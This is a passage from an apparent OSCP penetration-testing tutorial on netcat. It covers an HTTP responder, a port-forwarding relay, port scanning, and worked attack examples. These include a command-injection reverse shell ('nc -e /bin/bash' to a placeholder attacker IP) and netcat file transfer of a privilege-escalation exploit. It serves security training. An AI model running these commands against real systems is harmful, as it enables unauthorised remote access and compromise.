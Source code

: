 You can use `netcat` to serve a single HTTP response.

**Simple HTTP Server:**

Create a simple HTML file (`index.html`):

```html
<!DOCTYPE html>
<html>
<body>
<h1>Hello, OSCP!</h1>
</body>
</html>
```

Serve the file with `netcat`:

```sh
while true; do { echo -e 'HTTP/1.1 200 OK\r\n'; cat index.html; } | nc -lvnp 8080; done
```

### 7. Port Forwarding

You can forward traffic from one port to another using `netcat`.

```sh
mkfifo /tmp/f; nc -lvnp 8080 < /tmp/f | nc <target_ip> 80 > /tmp/f
```

#### Practical Examples in OSCP

**Example 1: Reverse Shell via a Vulnerable Web Application**

Assume you have identified a vulnerable web application that allows you to execute commands. You could use the following command to get a reverse shell:

```sh
curl http://victim.com/vulnerable?cmd=nc -e /bin/bash <attacker_ip> 4444
```

**Example 2: Privilege Escalation via File Transfer**

You have gained limited access to a target machine and found a privilege escalation exploit that you need to upload. On your machine:

```sh
nc -lvnp 4444 < exploit.c
```

On the target machine:

```sh
nc <attacker_ip> 4444 > exploit.c
```

**Example 3: Scanning for Open Ports During Reconnaissance**

Use `netcat` to quickly check for open ports on a target machine:

```sh
nc -zv 192.168.1.5 1-65535
```
